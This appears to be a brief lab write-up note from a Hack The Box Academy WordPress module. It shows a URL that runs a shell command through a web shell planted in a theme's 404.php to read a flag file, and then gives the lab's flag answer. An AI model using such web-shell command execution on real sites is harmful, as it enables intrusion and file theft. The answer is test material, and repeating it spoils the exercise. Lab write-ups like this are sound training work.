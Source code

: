 ![](./attachments/Pasted%20image%2020220806125938.png)

Command execution URL: `http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt`

![](./attachments/Pasted%20image%2020220806130810.png)

**Answer:** `HTB{w0rdPr355_4SS3ssm3n7}`

---
**Tags:** [[Hack The Box Academy]]